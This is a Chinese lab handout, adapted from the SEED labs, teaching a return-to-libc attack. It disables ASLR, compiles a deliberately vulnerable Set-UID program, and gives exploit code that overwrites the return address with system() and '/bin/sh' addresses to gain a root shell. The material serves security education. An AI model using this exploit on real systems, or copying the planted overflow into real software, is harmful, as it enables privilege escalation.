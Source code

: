 #Return-to-libc 攻击实验


##一、实验描述

在进行本次实验之前，建议先做 [缓冲区溢出漏洞实验](http://www.shiyanlou.com/courses/231) 。

缓冲区溢出的常用攻击方法是用 shellcode 的地址来覆盖漏洞程序的返回地址，使得漏洞程序去执行存放在栈中 shellcode。为了阻止这种类型的攻击，一些操作系统使得系统管理员具有使栈不可执行的能力。这样的话，一旦程序执行存放在栈中的 shellcode 就会崩溃，从而阻止了攻击。

不幸的是上面的保护方式并不是完全有效的，现在存在一种**缓冲区溢出的变体攻击**，叫做 return-to-libc 攻击。这种攻击不需要一个栈可以执行，甚至不需要一个 shellcode。取而代之的是我们让漏洞程序调转到现存的代码（比如已经载入内存的 libc 库中的 system（）函数等）来实现我们的攻击。

##二、实验准备

系统用户名 shiyanlou

实验楼提供的是 64 位 Ubuntu linux，而本次实验为了方便观察汇编语句，我们需要在 32 位环境下作操作，因此实验之前需要做一些准备。

###1、输入命令安装一些用于编译 32 位 C 程序的东西：

```
sudo apt-get update

sudo apt-get install lib32z1 libc6-dev-i386

sudo apt-get install lib32readline-gplv2-dev
```

###2、输入命令“linux32”进入 32 位 linux 环境。输入“/bin/bash”使用 bash：

![02-01](https://dn-anything-about-doc.qbox.me/xxaq/02-01.png)


##三、实验步骤


###3.1 初始设置

Ubuntu 和其他一些 Linux 系统中，使用地址空间随机化来随机堆（heap）和栈（stack）的初始地址，这使得猜测准确的内存地址变得十分困难，而猜测内存地址是缓冲区溢出攻击的关键。因此本次实验中，我们使用以下命令关闭这一功能：

```
sudo sysctl -w kernel.randomize_va_space=0
```

此外，为了进一步防范缓冲区溢出攻击及其它利用 shell 程序的攻击，许多 shell 程序在被调用时自动放弃它们的特权。因此，即使你能欺骗一个 Set-UID 程序调用一个 shell，也不能在这个 shell 中保持 root 权限，这个防护措施在/bin/bash 中实现。

linux 系统中，/bin/sh 实际是指向/bin/bash 或/bin/dash 的一个符号链接。为了重现这一防护措施被实现之前的情形，我们使用另一个 shell 程序（zsh）代替/bin/bash。下面的指令描述了如何设置 zsh 程序：

```
sudo su

cd /bin

rm sh

ln -s zsh sh

exit
```

为了防止缓冲区溢出攻击，最近版本的 gcc 编译器默认将程序编译设置为**栈不可执行**，而你可以在编译的时候手动设置是否使栈不可执行：

```
gcc -z execstack -o test test.c    #栈可执行

gcc -z noexecstack -o test test.c  #栈不可执行
```

&gt; 本次实验的目的，就是展示这个“栈不可执行”的保护措施并不是完全有效，所以我们使用“-z noexecstack”，或者不手动指定而使用编译器的默认设置。

###3.2 漏洞程序

把以下代码保存为“retlib.c”文件，保存到 /tmp 目录下。代码如下：

```
/* retlib.c */
/* This program has a buffer overflow vulnerability. */
/* Our task is to exploit this vulnerability */
include &lt;stdlib.h&gt;
include &lt;stdio.h&gt;
include &lt;string.h&gt;
int bof(FILE *badfile)
{
char buffer[12];
/* The following statement has a buffer overflow problem */
fread(buffer, sizeof(char), 40, badfile);
return 1;
}
int main(int argc, char **argv)
{
FILE *badfile;
badfile = fopen(&#34;badfile&#34;, &#34;r&#34;);
bof(badfile);
printf(&#34;Returned Properly\n&#34;);
fclose(badfile);
return 1;
}
```

编译该程序，并设置 SET-UID。命令如下：

```
sudo su

gcc -m32 -g -z noexecstack -fno-stack-protector -o retlib retlib.c

chmod u+s retlib

exit
```

或者也可以“gcc -m32 -g -fno-stack-protector -o retlib retlib.c”，默认使用“栈不可执行”保护。

GCC 编译器有一种栈保护机制来阻止缓冲区溢出，所以我们在编译代码时需要用 –fno-stack-protector 关闭这种机制。

上述程序有一个缓冲区溢出漏洞，它先从一个叫“badfile”的文件里把 40 字节的数据读取到 12 字节的 buffer，引起溢出。fread()函数不检查边界所以会发生溢出。由于此程序为 SET-ROOT-UID 程序，如果一个普通用户利用了此缓冲区溢出漏洞，他有可能获得 root shell。应该注意到此程序是从一个叫做“badﬁle”的文件获得输入的，这个文件受用户控制。现在我们的目标是为“badﬁle”创建内容，这样当这段漏洞程序将此内容复制进它的缓冲区，便产生了一个 root shell 。

我们还需要用到一个读取环境变量的程序：

```
/* getenvaddr.c */
include &lt;stdio.h&gt;
include &lt;stdlib.h&gt;
include &lt;string.h&gt;

int main(int argc, char const *argv[])
{
 char *ptr;

 if(argc &lt; 3){
    printf(&#34;Usage: %s &lt;environment var&gt; &lt;target program name&gt;\n&#34;, argv[0]);
    exit(0);
    }
 ptr = getenv(argv[1]);
 ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;
 printf(&#34;%s will be at %p\n&#34;, argv[1], ptr);
 return 0;
}
```

编译一下：

```
gcc -m32 -o getenvaddr getenvaddr.c
```

###3.3 攻击程序

把以下代码保存为“exploit.c”文件，保存到 /tmp 目录下。代码如下：

```
/* exploit.c */
include &lt;stdlib.h&gt;
include &lt;stdio.h&gt;
include &lt;string.h&gt;
int main(int argc, char **argv)
{
 char buf[40];
 FILE *badfile;
 badfile = fopen(&#34;.//badfile&#34;, &#34;w&#34;);
 
 strcpy(buf, &#34;\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90&#34;);// nop 24 times
  
 *(long *) &amp;buf[32] =0x11111111; // &#34;//bin//sh&#34;
 *(long *) &amp;buf[24] =0x22222222; // system()
 *(long *) &amp;buf[36] =0x33333333; // exit()
 fwrite(buf, sizeof(buf), 1, badfile);
 fclose(badfile);
}
```

代码中“0x11111111”、“0x22222222”、“0x33333333”分别是 BIN_SH、system、exit 的地址，需要我们接下来获取。

###3.4 获取内存地址

####1、用刚才的 getenvaddr 程序获得 BIN_SH 地址：

![03-01](https://dn-anything-about-doc.qbox.me/xxaq/03-01.png/logoblackfont)

####2、gdb 获得 system 和 exit 地址：

![03-02](https://dn-anything-about-doc.qbox.me/xxaq/03-02.png/logoblackfont)

修改 exploit.c 文件，填上刚才找到的内存地址：

![03-03](https://dn-anything-about-doc.qbox.me/xxaq/03-03.png)

删除刚才调试编译的 exploit 程序和 badfile 文件，重新编译修改后的 exploit.c：

```
rm exploit
rm badfile
gcc -m32 -o exploit exploit.c
```

###3.5 攻击

先运行攻击程序 exploit，再运行漏洞程序 retlib，可见攻击成功，获得了 root 权限：

![03-04](https://dn-anything-about-doc.qbox.me/xxaq/03-04.png/logoblackfont)


##四、练习

###1、按照实验步骤进行操作，攻击漏洞程序并获得 root 权限。

###2、将/bin/sh 重新指向/bin/bash（或/bin/dash），观察能否攻击成功，能否获得 root 权限。

###3、观察、思考本次实验和[缓冲区溢出漏洞实验](http://www.shiyanlou.com/courses/231)的相同和不同之处。

以上练习请在实验楼环境完成并截图。


## 版权声明

本课程所涉及的实验来自[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)，并在此基础上为适配[实验楼](http://www.shiyanlou.com)网站环境进行修改，修改后的实验文档仍然遵循 GNU Free Documentation License。

本课程文档 github 链接：[https://github.com/shiyanlou/seedlab](https://github.com/shiyanlou/seedlab)

附[Syracuse SEED labs](http://www.cis.syr.edu/~wedu/seed/)版权声明：

&gt; Copyright Statement Copyright 2006 – 2014 Wenliang Du, Syracuse University. The development of this document is funded by the National Science Foundation’s Course, Curriculum, and Laboratory Improvement (CCLI) program under Award No. 0618680 and 0231122. Permission is granted to copy, distribute and/or modify this document under the terms of the GNU Free Documentation License, Version 1.2 or any later version published by the Free Software Foundation. A copy of the license can befound at http://www.gnu.org/licenses/fdl.html.

